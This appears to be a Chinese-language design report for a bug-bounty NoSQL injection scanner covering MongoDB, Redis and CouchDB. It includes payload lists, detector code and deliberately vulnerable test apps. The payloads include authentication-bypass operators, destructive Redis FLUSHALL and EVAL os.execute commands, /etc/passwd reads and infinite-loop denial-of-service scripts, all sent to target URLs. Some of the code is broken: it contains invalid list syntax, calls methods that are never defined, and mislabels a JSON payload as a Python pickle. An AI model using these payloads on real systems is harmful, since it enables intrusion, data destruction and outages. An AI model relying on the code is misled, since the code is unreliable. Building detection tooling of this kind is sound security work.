

# 🗃️ NoSQL注入檢測模組需求報告 (NoSQL Injection Detection)

## 📁 模組部署位置
```
services/integration/capability/nosql_injection/
├── __init__.py
├── __main__.py
├── nosql_detector.py                # 主NoSQL注入檢測器
├── mongodb_injector.py              # MongoDB專用注入器
├── redis_injector.py                # Redis專用注入器
├── couchdb_injector.py              # CouchDB專用注入器
├── config/
│   ├── mongodb_payloads.json
│   ├── redis_payloads.json
│   ├── couchdb_payloads.json
│   └── detection_rules.json
├── payloads/
│   ├── mongodb_operators.json
│   ├── javascript_injection.json
│   ├── redis_commands.json
│   └── blind_nosql_payloads.json
└── tests/
    ├── test_nosql_detector.py
    ├── test_mongodb_injector.py
    └── test_integration.py
```

## 🔗 相關模組連結
- [命令注入檢測](./11_命令注入檢測模組需求報告.md) - 共享注入檢測框架
- [服務器端模板注入檢測](./12_服務器端模板注入檢測模組需求報告.md) - 共享注入檢測框架
- [本地遠程文件包含檢測](./14_本地遠程文件包含檢測模組需求報告.md) - 共享載荷注入技術
- [XXE注入檢測](./15_XXE注入檢測模組需求報告.md) - 共享盲注檢測技術
- [主機標頭注入檢測](./17_主機標頭注入檢測模組需求報告.md) - 共享HTTP參數注入檢測

**報告編號**: FEAT-016  
**日期**: 2025年11月7日  
**狀態**: 🚀 新興威脅 - 中高複雜度  
**優先級**: P1 (High Priority)  
**預期收益**: $55K-95K/年  
**OWASP 編號**: WSTG-07-14

---

## 📊 市場需求分析

### 💰 賞金價值評估
- **典型賞金範圍**: $400-$4,000 (新興高価值)
- **發現頻率**: 中高 (35-50%的NoSQL應用存在風險)
- **檢測成功率**: 70-85% (需要語法特異性)
- **年收益預測**: $55K-95K

### 🎯 目標技術棧分布
- **MongoDB應用**: 50%市場佔有率 (Node.js, Python, Java)
- **Redis應用**: 20%市場佔有率 (緩存注入)
- **CouchDB應用**: 15%市場佔有率 (Map-Reduce注入)
- **Cassandra應用**: 10%市場佔有率 (CQL注入)
- **其他NoSQL**: 5%市場佔有率 (Neo4j, ElasticSearch)

### 🚨 高風險場景
- RESTful API - 85%風險
- Node.js應用 - 80%風險  
- 實時數據分析 - 75%風險
- 內容管理系統 - 70%風險
- IoT數據收集 - 65%風險

---

## 🔍 技術需求規格

### **模組標識**
```
服務路徑: services/integration/capability/nosql_injection/
模組名稱: NoSQL Injection Detection Engine
責任團隊: Advanced Security Research Team
實現語言: Python (主引擎) + Go (性能組件)
複雜度級別: Medium-High
```

### **核心檢測能力**

#### 1️⃣ **MongoDB注入檢測引擎**
```python
class MongoDBInjectionDetector:
    """MongoDB注入檢測器"""
    
    def __init__(self):
        self.mongodb_payloads = self._load_mongodb_payloads()
        self.blind_techniques = self._load_blind_techniques()
        self.error_patterns = self._load_error_patterns()
        
    def _load_mongodb_payloads(self):
        """載入MongoDB注入載荷"""
        return {
            'basic_injection': [
                # 基本布爾繞過
                {"$ne": None},
                {"$ne": ""},
                {"$exists": True},
                {"$type": 2},
                {"$regex": ".*"},
                
                # 比較操作符
                {"$gt": ""},
                {"$gte": ""},
                {"$lt": "ZZZZZ"},
                {"$lte": "ZZZZZ"},
                {"$in": ["admin", "user", "guest"]},
                {"$nin": []},
            ],
            
            'javascript_injection': [
                # JavaScript代碼注入
                {"$where": "this.username == this.username"},
                {"$where": "1==1"},
                {"$where": "return true"},
                {"$where": "function(){return true}()"},
                {"$where": "sleep(5000) || true"},
                {"$where": "while(true){}"},
                
                # Map-Reduce注入
                {
                    "$where": """
                    function() {
                        var date = new Date();
                        var curDate = null;
                        do { curDate = new Date(); }
                        while(curDate-date < 5000);
                        return true;
                    }
                    """
                }
            ],
            
            'blind_injection': [
                # 盲注 - 時間延遲
                {"$where": "sleep(Math.floor(Math.random()*1000))"},
                {"$where": "if(this.username=='admin')sleep(5000)"},
                
                # 盲注 - 字符長度
                {"username": {"$regex": f"^.{{{i}}}$"}} for i in range(1, 20),
                
                # 盲注 - 字符匹配
                {"username": {"$regex": f"^{c}"}} for c in "abcdefghijklmnopqrstuvwxyz0123456789",
            ],
            
            'operator_abuse': [
                # 操作符濫用
                {"$or": [{"username": "admin"}, {"username": "user"}]},
                {"$and": [{"$or": [{"username": {"$ne": None}}]}]},
                {"$not": {"username": {"$exists": False}}},
                {"$nor": [{"username": {"$exists": False}}]},
                
                # 聚合管道注入
                [
                    {"$match": {"$expr": {"$eq": ["$username", "$username"]}}},
                    {"$group": {"_id": None, "count": {"$sum": 1}}}
                ]
            ]
        }
    
    def detect_mongodb_injection(self, target_url, parameter, original_value):
        """檢測MongoDB注入漏洞"""
        detections = []
        
        for category, payloads in self.mongodb_payloads.items():
            for payload in payloads:
                result = self._test_mongodb_payload(
                    target_url, parameter, payload, category, original_value
                )
                if result:
                    detections.append(result)
                    
        return detections
    
    def _test_mongodb_payload(self, url, param, payload, category, original_value):
        """測試MongoDB載荷"""
        
        # 構造測試參數
        if isinstance(payload, dict):
            # JSON格式載荷
            test_params = {param: json.dumps(payload)}
        elif isinstance(payload, list):
            # 數組格式載荷  
            test_params = {param: json.dumps(payload)}
        else:
            # 字符串格式載荷
            test_params = {param: str(payload)}
            
        # 發送請求
        baseline_response = self._send_request(url, {param: original_value})
        test_response = self._send_request(url, test_params)
        
        if not baseline_response or not test_response:
            return None
            
        # 分析響應差異
        return self._analyze_mongodb_response(
            baseline_response, test_response, payload, category
        )
    
    def _analyze_mongodb_response(self, baseline, test_response, payload, category):
        """分析MongoDB響應"""
        
        # 檢查錯誤消息
        error_indicators = [
            'mongodb error',
            'bson error', 
            'invalid bson',
            'mongoose error',
            'mongodb://connection',
            '$where error',
            'javascript execution',
            'aggregation error',
            'invalid operator'
        ]
        
        test_content = test_response.text.lower()
        for error in error_indicators:
            if error in test_content:
                return {
                    'type': 'MongoDB Injection',
                    'category': 'error_based',
                    'payload': payload,
                    'confidence': 0.8,
                    'evidence': f'MongoDB error detected: {error}',
                    'impact': 'High - Database structure disclosure'
                }
        
        # 檢查時間延遲 (JavaScript注入)
        if category == 'javascript_injection':
            baseline_time = getattr(baseline, 'elapsed', timedelta()).total_seconds()
            test_time = getattr(test_response, 'elapsed', timedelta()).total_seconds()
            
            if test_time - baseline_time > 3:
                return {
                    'type': 'MongoDB JavaScript Injection',
                    'category': 'time_based',
                    'payload': payload,
                    'confidence': 0.85,
                    'evidence': f'Time delay detected: {test_time - baseline_time:.2f}s',
                    'impact': 'Critical - Code execution via $where'
                }
        
        # 檢查數據差異 (布爾注入)
        if category == 'basic_injection':
            baseline_length = len(baseline.text)
            test_length = len(test_response.text)
            
            # 數據量顯著差異
            if abs(test_length - baseline_length) > 100:
                return {
                    'type': 'MongoDB Boolean Injection',
                    'category': 'boolean_based',
                    'payload': payload,
                    'confidence': 0.75,
                    'evidence': f'Response size difference: {test_length - baseline_length}',
                    'impact': 'High - Authentication bypass potential'
                }
        
        return None
```

#### 2️⃣ **Redis注入檢測引擎**
```python
class RedisInjectionDetector:
    """Redis注入檢測器"""
    
    def __init__(self):
        self.redis_payloads = self._load_redis_payloads()
        
    def _load_redis_payloads(self):
        """載入Redis注入載荷"""
        return {
            'command_injection': [
                # Redis命令注入
                "\r\nFLUSHALL\r\n",
                "\r\nCONFIG GET *\r\n",
                "\r\nINFO\r\n",
                "\r\nKEYS *\r\n",
                "\r\nGET admin_password\r\n",
                "\r\nSET test_key test_value\r\n",
                "\r\nEVAL 'return redis.call(\"FLUSHALL\")' 0\r\n",
                
                # Lua腳本注入
                "\r\nEVAL 'return \"injected\"' 0\r\n",
                "\r\nEVAL 'os.execute(\"whoami\")' 0\r\n",
                "\r\nEVALSHA 'return 1' 0\r\n",
            ],
            
            'protocol_confusion': [
                # Redis協議混淆
                "*2\r\n$4\r\nKEYS\r\n$1\r\n*\r\n",
                "*1\r\n$4\r\nINFO\r\n",
                "*1\r\n$8\r\nFLUSHALL\r\n",
                "*3\r\n$3\r\nSET\r\n$4\r\ntest\r\n$5\r\nvalue\r\n",
            ],
            
            'serialization_abuse': [
                # 序列化攻擊
                'O:8:"stdClass":1:{s:4:"data";s:8:"injected";}',  # PHP序列化
                '{"__class__": "os.system", "command": "whoami"}',  # Python pickle
                'rO0ABXNyABNqYXZhLnV0aWwuSGFzaHRhYmxl',  # Java序列化
            ]
        }
    
    def detect_redis_injection(self, target_url, parameter, original_value):
        """檢測Redis注入漏洞"""
        detections = []
        
        for category, payloads in self.redis_payloads.items():
            for payload in payloads:
                result = self._test_redis_payload(
                    target_url, parameter, payload, category, original_value
                )
                if result:
                    detections.append(result)
                    
        return detections
    
    def _test_redis_payload(self, url, param, payload, category, original_value):
        """測試Redis載荷"""
        
        # 構造測試參數
        test_params = {param: original_value + payload}
        
        # 發送請求
        response = self._send_request(url, test_params)
        
        if not response:
            return None
            
        return self._analyze_redis_response(response, payload, category)
    
    def _analyze_redis_response(self, response, payload, category):
        """分析Redis響應"""
        
        content = response.text.lower()
        
        # Redis錯誤特徵
        redis_errors = [
            'redis error',
            'wrong number of arguments',
            'unknown command',
            'invalid argument',
            'connection refused',
            'redis-server',
            'resp protocol error'
        ]
        
        for error in redis_errors:
            if error in content:
                return {
                    'type': 'Redis Injection',
                    'category': 'error_based',
                    'payload': payload,
                    'confidence': 0.8,
                    'evidence': f'Redis error detected: {error}',
                    'impact': 'High - Cache manipulation and data exposure'
                }
        
        # 檢查Redis響應模式
        redis_responses = [
            '+ok',
            '-err',
            ':1',
            '$-1',  # NULL bulk reply
            '*0',   # Empty array
        ]
        
        for pattern in redis_responses:
            if pattern in content:
                return {
                    'type': 'Redis Protocol Injection',
                    'category': 'protocol_response',
                    'payload': payload,
                    'confidence': 0.7,
                    'evidence': f'Redis protocol response: {pattern}',
                    'impact': 'Medium - Protocol manipulation detected'
                }
        
        return None
```

#### 3️⃣ **CouchDB注入檢測引擎**
```python
class CouchDBInjectionDetector:
    """CouchDB注入檢測器"""
    
    def __init__(self):
        self.couchdb_payloads = self._load_couchdb_payloads()
        
    def _load_couchdb_payloads(self):
        """載入CouchDB注入載荷"""
        return {
            'view_injection': [
                # Map-Reduce視圖注入
                {
                    "map": "function(doc) { if (doc._id) emit(null, doc); }",
                    "reduce": "_count"
                },
                {
                    "map": "function(doc) { emit(doc._id, null); }"
                },
                {
                    "map": "function(doc) { while(true) {} }"  # DoS
                }
            ],
            
            'query_injection': [
                # Mango查詢注入
                {"selector": {"$and": []}},
                {"selector": {"_id": {"$gt": None}}},
                {"selector": {"$or": [{"_id": {"$exists": True}}]}},
                {"selector": {"_id": {"$regex": ".*"}}},
            ],
            
            'javascript_injection': [
                # JavaScript函數注入
                "function(){ return true; }",
                "function(){ while(true){} }",
                "function(){ require('fs').readFileSync('/etc/passwd', 'utf8'); }",
                "function(){ new Date().getTime() + 5000 < new Date().getTime(); }"
            ]
        }
    
    def detect_couchdb_injection(self, target_url, parameter, original_value):
        """檢測CouchDB注入漏洞"""
        detections = []
        
        for category, payloads in self.couchdb_payloads.items():
            for payload in payloads:
                result = self._test_couchdb_payload(
                    target_url, parameter, payload, category, original_value
                )
                if result:
                    detections.append(result)
                    
        return detections
    
    def _analyze_couchdb_response(self, response, payload, category):
        """分析CouchDB響應"""
        
        content = response.text.lower()
        
        # CouchDB錯誤特徵
        couchdb_errors = [
            'couchdb error',
            'bad request',
            'compilation_error',
            'javascript error',
            'map_runtime_error',
            'reduce_runtime_error',
            'invalid_json',
            'query_parse_error'
        ]
        
        for error in couchdb_errors:
            if error in content:
                return {
                    'type': 'CouchDB Injection',
                    'category': 'error_based',
                    'payload': payload,
                    'confidence': 0.8,
                    'evidence': f'CouchDB error detected: {error}',
                    'impact': 'High - Document database manipulation'
                }
        
        return None
```

#### 4️⃣ **通用NoSQL檢測引擎**
```python
class UniversalNoSQLDetector:
    """通用NoSQL注入檢測器"""
    
    def __init__(self):
        self.detectors = {
            'mongodb': MongoDBInjectionDetector(),
            'redis': RedisInjectionDetector(), 
            'couchdb': CouchDBInjectionDetector(),
            'cassandra': CassandraInjectionDetector(),
            'neo4j': Neo4jInjectionDetector()
        }
        
    def detect_nosql_injection(self, target_url, parameters):
        """通用NoSQL注入檢測"""
        all_detections = []
        
        # 嘗試識別NoSQL類型
        nosql_type = self._identify_nosql_type(target_url)
        
        for param_name, param_value in parameters.items():
            if nosql_type:
                # 使用特定檢測器
                detector = self.detectors.get(nosql_type)
                if detector:
                    detections = detector.detect_injection(target_url, param_name, param_value)
                    all_detections.extend(detections)
            else:
                # 使用所有檢測器
                for db_type, detector in self.detectors.items():
                    detections = detector.detect_injection(target_url, param_name, param_value)
                    all_detections.extend(detections)
                    
        return self._deduplicate_detections(all_detections)
    
    def _identify_nosql_type(self, target_url):
        """識別NoSQL數據庫類型"""
        
        # 檢查響應頭
        response = self._send_request(target_url)
        if not response:
            return None
            
        headers = response.headers
        
        # MongoDB特徵
        if 'mongodb' in str(headers).lower():
            return 'mongodb'
            
        # Redis特徵
        if 'redis' in str(headers).lower():
            return 'redis'
            
        # CouchDB特徵
        if 'couchdb' in str(headers).lower() or 'server: couchdb' in str(headers).lower():
            return 'couchdb'
            
        # 嘗試錯誤頁面識別
        content = response.text.lower()
        
        if any(term in content for term in ['mongodb', 'mongoose', 'bson']):
            return 'mongodb'
        elif any(term in content for term in ['redis', 'resp protocol']):
            return 'redis'
        elif any(term in content for term in ['couchdb', 'apache couchdb']):
            return 'couchdb'
        elif any(term in content for term in ['cassandra', 'cql']):
            return 'cassandra'
        elif any(term in content for term in ['neo4j', 'cypher']):
            return 'neo4j'
            
        return None
```

---

## 🏗️ 架構設計

### **模組結構**
```
services/integration/capability/nosql_injection/
├── cmd/
│   └── main.go                      # Go服務入口
├── internal/
│   ├── detector/
│   │   ├── mongodb_detector.py      # MongoDB注入檢測
│   │   ├── redis_detector.py        # Redis注入檢測
│   │   ├── couchdb_detector.py      # CouchDB注入檢測
│   │   ├── cassandra_detector.py    # Cassandra注入檢測
│   │   ├── neo4j_detector.py        # Neo4j注入檢測
│   │   └── universal_detector.py    # 通用檢測器
│   ├── engine/
│   │   ├── scanner.py               # 主掃描引擎
│   │   ├── payload_generator.py     # 載荷生成器
│   │   ├── response_analyzer.py     # 響應分析器
│   │   └── reporter.py              # 報告生成器
│   ├── blind/
│   │   ├── time_based_detector.py   # 時間盲注
│   │   ├── boolean_detector.py      # 布爾盲注
│   │   └── error_based_detector.py  # 錯誤盲注
│   └── worker/
│       ├── amqp_consumer.go         # 消息消費者
│       └── task_processor.go        # 任務處理器
├── config/
│   ├── payloads/
│   │   ├── mongodb_payloads.yaml    # MongoDB載荷庫
│   │   ├── redis_payloads.yaml      # Redis載荷庫
│   │   ├── couchdb_payloads.yaml    # CouchDB載荷庫
│   │   ├── cassandra_payloads.yaml  # Cassandra載荷庫
│   │   └── neo4j_payloads.yaml      # Neo4j載荷庫
│   ├── signatures/
│   │   ├── error_patterns.yaml      # 錯誤模式庫
│   │   ├── response_patterns.yaml   # 響應模式庫
│   │   └── timing_thresholds.yaml   # 時間閾值配置
│   └── rules.yaml                   # 檢測規則
└── tests/
    ├── unit/
    ├── integration/
    └── vulnerable_apps/             # 測試應用
```

### **檢測工作流**


---

## ⚙️ 配置文件規格

### **主配置文件**
```yaml
# config/rules.yaml
nosql_injection_detection:
  enabled: true
  timeout: 60
  max_payloads_per_param: 20
  
  databases:
    mongodb:
      enabled: true
      javascript_injection: true
      operator_abuse: true
      blind_techniques: true
      
    redis:
      enabled: true
      command_injection: true
      protocol_confusion: true
      serialization_abuse: true
      
    couchdb:
      enabled: true
      view_injection: true
      mango_query_injection: true
      
    cassandra:
      enabled: true
      cql_injection: true
      
    neo4j:
      enabled: true
      cypher_injection: true
      
  blind_injection:
    time_threshold: 3.0
    boolean_confidence: 0.8
    max_blind_attempts: 10
    
  confidence_thresholds:
    high: 0.85
    medium: 0.7
    low: 0.5
    
  rate_limiting:
    requests_per_second: 4
    burst_limit: 8
    delay_between_requests: 300ms
```

### **MongoDB載荷配置**
```yaml
# config/payloads/mongodb_payloads.yaml
mongodb_payloads:
  boolean_bypass:
    - payload: '{"$ne": null}'
      description: "Not equal to null bypass"
      severity: "high"
      
    - payload: '{"$exists": true}'
      description: "Field existence check"
      severity: "medium"
      
    - payload: '{"$regex": ".*"}'
      description: "Regex match all"
      severity: "medium"
      
  javascript_injection:
    - payload: '{"$where": "this.username == this.username"}'
      description: "Always true JavaScript"
      severity: "high"
      
    - payload: '{"$where": "sleep(5000) || true"}'
      description: "Time-based JavaScript injection"
      severity: "critical"
      
  operator_abuse:
    - payload: '{"$or": [{"username": {"$ne": null}}]}'
      description: "OR operator abuse"
      severity: "high"
      
    - payload: '{"$and": [{"$or": [{"_id": {"$exists": true}}]}]}'
      description: "Complex operator nesting"
      severity: "medium"
```

### **錯誤模式配置**
```yaml
# config/signatures/error_patterns.yaml
error_patterns:
  mongodb:
    - pattern: "mongodb error"
      confidence: 0.9
      
    - pattern: "bson error"
      confidence: 0.85
      
    - pattern: "mongoose error"
      confidence: 0.8
      
    - pattern: "$where error"
      confidence: 0.95
      
  redis:
    - pattern: "redis error"
      confidence: 0.9
      
    - pattern: "wrong number of arguments"
      confidence: 0.85
      
    - pattern: "unknown command"
      confidence: 0.8
      
  couchdb:
    - pattern: "couchdb error"
      confidence: 0.9
      
    - pattern: "compilation_error"
      confidence: 0.85
      
    - pattern: "map_runtime_error"
      confidence: 0.9
```

---

## 🧪 測試策略

### **漏洞應用搭建**
```javascript
// Node.js + MongoDB 漏洞示例
const express = require('express');
const mongoose = require('mongoose');
const app = express();

app.use(express.json());

// 危險的用戶認證
app.post('/login', async (req, res) => {
    const { username, password } = req.body;
    
    // 直接使用用戶輸入構造查詢 - 危險!
    const user = await User.findOne({
        username: username,
        password: password
    });
    
    if (user) {
        res.json({ success: true, user: user });
    } else {
        res.json({ success: false });
    }
});

// 危險的數據查詢
app.get('/search', async (req, res) => {
    const { query } = req.query;
    
    // 直接使用$where - 極度危險!
    const results = await Article.find({
        $where: `this.title.includes('${query}')`
    });
    
    res.json(results);
});
```

```python
# Python + Redis 漏洞示例
import redis
from flask import Flask, request

app = Flask(__name__)
r = redis.Redis(host='localhost', port=6379, db=0)

@app.route('/cache')
def get_cache():
    key = request.args.get('key')
    
    # 直接拼接Redis命令 - 危險!
    command = f"GET {key}"
    
    try:
        # 這裡可能導致命令注入
        result = r.execute_command(*command.split())
        return str(result)
    except Exception as e:
        return str(e)
```

### **自動化測試**
```python
class TestNoSQLInjection:
    def setup_method(self):
        self.detector = UniversalNoSQLDetector()
        self.mongodb_app = "http://localhost:3000"
        self.redis_app = "http://localhost:5000"
        
    def test_mongodb_injection_detection(self):
        """測試MongoDB注入檢測"""
        
        # 測試布爾繞過
        params = {"username": "admin", "password": "test"}
        results = self.detector.detect_nosql_injection(
            f"{self.mongodb_app}/login", params
        )
        
        assert len(results) > 0
        assert any(r['type'] == 'MongoDB Injection' for r in results)
        
    def test_javascript_injection(self):
        """測試JavaScript注入"""
        
        params = {"query": "test"}
        results = self.detector.detect_nosql_injection(
            f"{self.mongodb_app}/search", params
        )
        
        # 檢查時間延遲檢測
        time_based = any(
            r.get('category') == 'time_based' for r in results
        )
        assert time_based
        
    def test_redis_command_injection(self):
        """測試Redis命令注入"""
        
        params = {"key": "test"}
        results = self.detector.detect_nosql_injection(
            f"{self.redis_app}/cache", params
        )
        
        # 檢查命令注入檢測
        command_injection = any(
            'command_injection' in r.get('category', '') for r in results
        )
        assert command_injection or len(results) == 0
        
    def test_database_type_identification(self):
        """測試數據庫類型識別"""
        
        # MongoDB應用識別
        db_type = self.detector._identify_nosql_type(self.mongodb_app)
        assert db_type in ['mongodb', None]  # 可能無法識別
        
        # Redis應用識別  
        db_type = self.detector._identify_nosql_type(self.redis_app)
        assert db_type in ['redis', None]    # 可能無法識別
```

---

## 📈 性能要求

### **掃描性能**
- **單參數掃描時間**: < 90秒 (包含盲注)
- **並發請求數**: 8個並發連接
- **數據庫類型識別**: < 10秒
- **內存使用**: < 400MB/實例

### **檢測準確率**
- **MongoDB注入成功率**: > 80%
- **Redis注入成功率**: > 75%
- **CouchDB注入成功率**: > 70%
- **總體誤報率**: < 10%

---

## 🚀 實施計劃

### **Phase 1: MongoDB檢測 (3週)**
- [ ] MongoDB注入檢測引擎
- [ ] JavaScript注入檢測
- [ ] 操作符濫用檢測
- [ ] 布爾盲注實現

### **Phase 2: Redis/CouchDB檢測 (2週)**
- [ ] Redis命令注入檢測
- [ ] CouchDB視圖注入檢測
- [ ] 協議混淆檢測
- [ ] 時間盲注技術

### **Phase 3: 通用框架 (2週)**
- [ ] 數據庫類型識別
- [ ] 通用檢測引擎
- [ ] 結果整合去重
- [ ] 錯誤模式匹配

### **Phase 4: 集成測試 (1週)**
- [ ] 全面測試覆蓋
- [ ] 性能優化調整
- [ ] SARIF報告格式
- [ ] 文檔和部署

**總開發周期**: 8週  
**預計上線時間**: 2025年12月19日

---

## 💼 商業價值

### **收益分析**
- **年度賞金收入**: $55K-95K
- **開發投資**: $80K (8週開發)
- **ROI**: 69%-119%
- **回收周期**: 10-14個月

### **技術價值**
- **檢測覆蓋率**: 提升至55%
- **新興威脅**: NoSQL注入檢測稀缺
- **技術前瞻性**: 把握NoSQL趨勢

---

## 📋 驗收標準

### **功能驗收**
- ✅ 支持5種主流NoSQL數據庫
- ✅ JavaScript代碼注入檢測
- ✅ 多種盲注技術支持
- ✅ 數據庫類型自動識別
- ✅ 操作符濫用檢測

### **性能驗收**
- ✅ 掃描時間<90秒/參數
- ✅ MongoDB成功率>80%
- ✅ Redis成功率>75%
- ✅ 誤報率<10%

---

## 🎯 結論

NoSQL注入檢測模組是一個**新興高價值、中高複雜度**的戰略性項目。隨著NoSQL數據庫的普及，此類漏洞將越來越常見，但專門的檢測工具仍然稀缺，形成了良好的市場機會。

**建議作為第五優先級項目**，在基礎檢測能力建立後實施，以捕獲新興技術趨勢下的高價值漏洞。